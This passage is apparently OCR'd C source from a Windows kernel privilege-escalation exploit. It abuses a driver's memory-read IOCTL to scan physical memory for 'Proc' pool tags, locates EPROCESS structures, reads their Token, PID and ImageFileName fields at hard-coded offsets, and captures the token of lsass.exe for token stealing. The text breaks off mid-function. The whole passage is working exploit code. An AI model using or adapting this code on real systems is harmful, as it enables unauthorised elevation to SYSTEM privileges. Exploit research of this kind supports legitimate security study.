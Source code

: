 ```c
    while (1) {
        INT64 read_address = START_ADDRESS + (i * 0x1000);
        if (read_address >= END_OF_ADDRESS) {
            printf("END of Address\n");
            return proc_data;
        }
        READ_INPUT_BUFFER input_buff = { read_address, len };
        //printf("read address: %p\n",read_address);
        LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
        
        INT64 result = (INT64)output_buff + 0xc;
        for (INT64 j = 0; j < 0xF60; j += 0x10) {
            PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
            INT32 proc_val = *(PINT32)proc_ptr;
            if (proc_val == 0x636f7250) {
                for (INT64 k = 0; k < 0xA0; k += 0x10) {
                    PINT64 header_ptr = (PINT64)(result + j + k);
                    INT32 header_val = *(PINT32)header_ptr;
                    if (header_val == 0x00000003) {
                        INT64 tmp = read_address + j;
                        INT64 modulus = tmp % 0x1000;
                        proc_data.page_entry_offset[proc_data.proc_count] = modulus;
                        proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
                        proc_data.header_size[proc_data.proc_count] = k;
                        proc_data.proc_count++;
                        printf("[%I64d] Proc found\n", proc_data.proc_count);
                    }
                }
                
            }
        }
        i++;
    }
}

void parse_proc(PROC_DATA proc_data, HANDLE dHandle) {
    DWORD bytes_ret = 0;
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_count; i++) {
        INT64 read_address = proc_data.proc_address[i];
        READ_INPUT_BUFFER input_buff = { read_address, num_of_bytes };

        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &bytes_ret, NULL);
        INT64 result = (INT64)output_buff + 0xc;
        INT64 EPROCESS = result + proc_data.page_entry_offset[i] + proc_data.header_size[i];
        
        INT64 imagename_address = EPROCESS + 0x5a8; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;
        INT64 proc_token_addr = EPROCESS + 0x4b8; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;
        INT64 pid_addr = EPROCESS + 0x440; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;
        if (imagename_value == 0x78652e737361736c) {  //lsass.exe - system process
            printf("[>] system process [%s] found\n", (char*)imagename_address);
            system_token_value = proc_token;
```